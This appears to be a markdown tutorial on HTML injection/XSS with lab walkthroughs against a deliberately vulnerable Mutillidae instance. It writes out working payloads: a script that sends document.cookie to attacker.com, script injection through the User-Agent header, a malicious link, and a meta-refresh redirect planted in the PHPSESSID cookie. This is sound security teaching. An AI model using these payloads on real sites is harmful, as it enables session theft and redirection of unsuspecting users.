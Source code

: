 # HTML Injections 
HTML Injection also known as Cross Site Scripting. It is a security vulnerability that allows an attacker to inject HTML code into web pages that are viewed by other users.

Attackers often inject malicious JavaScript, VBScript, ActiveX, and/or HTML into vulnerable applications to deceive the user in order to gather data from them.  Cross-site scripting (XSS) vulnerabilities can be used by attackers to bypass authentication controls there by gaining access to sensitive data on your system. Well crafted malicious code can even help the attacker gain access to the entire system.

### Example Of Html Injection
- First the attacker finds out a site which is vulnerable to HTML injection
- Then the attacker sends the URL with malicious code injected in the URL to the victim user either through email or some other mechanism.
- If the victim user click this malicious URL, it will run the JavaScript or VBScript code with the privileges of the victim user.
- Depending on the code being executed it can give out sensitive information of the user or even compromise the victim’s computer.

###### Example 
1. **Identify User Input Fields in the URL**:
   - Many web applications take parameters from the URL, such as search queries, user IDs, or other input. Look for URLs that contain query parameters like ?id=, ?search=, ?user=, etc.
   - Example: https://example.com/search?q=shoes

2. **Add payloads to the URL**
    - Ex: `https://example.com/search?q=<script>alert('XSS')</script>`
    - Ex: `https://example.com/search?q=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`

> Try to send any HTML code snippet through the params, if the code is executed, the website have the particular vulnerability.

###### Common Issues
1. Lack of Input Validation
2. Improper Sanitization
3. Dynamic Content Generation
4. Lack of Proper Encoding

###### Redemption
1. Proper Validation
2. CSP - Content Security Policy


### Hands-On - 1
Let's practice with **Mutillidae** (OWASP-BWA) - http://192.168.42.131/mutillidae/  
Go to `OWASP 2013 > A1 Injection (Other) > HTML Injection` there are multiple labs.  
- http://192.168.42.131/mutillidae/index.php?page=browser-info.php

1. Let's work on the Browser Info Lab - Let's test for HTMLi 
![alt text](assets/htmlibrowser1.png)
2. Setup Burpsuite to intercept the parameters
![alt text](assets/htmlibrowser2.png)
- Tested changing the `page` parameter with `<script>alert('XSS')</script>` but it was not successful.
- After careful inspection, `User Agent` value seems to be a param, let's try it out.
![alt text](assets/htmlibrowser3.png)
We have updated the `User Agent` value to `<script>alert('HTMLi - Changing User-agent')</script>`
![alt text](assets/htmlibrowser4.png)
We can see that the code that is sent through `User Agent` is executing successfully.
![alt text](assets/htmlibrowser5.png)
We can even update it with malicous links like `<a href="https://www.malicious.com">Visit Trusted page!</a>`

### Success!!!

### Hands-On - 2
Go to `OWASP 2013 > A1 Injection (Other) > HTML Via Cookie Injection > Capture Data Page` 
![alt text](assets/htmlicookie1.png)
- Here we can clearly see the `PHPSESSIONID`
- Let's intercept and use it, but this time let's try to redirect it to another page.
- PHPSESSID=<meta http-equiv="refresh" content="5; URL=https://www.facebook.com"/>COOKIE_VALUE
- Redirected to `Facebook` after 5 Seconds
![alt text](assets/htmlicookie2.png)
### Success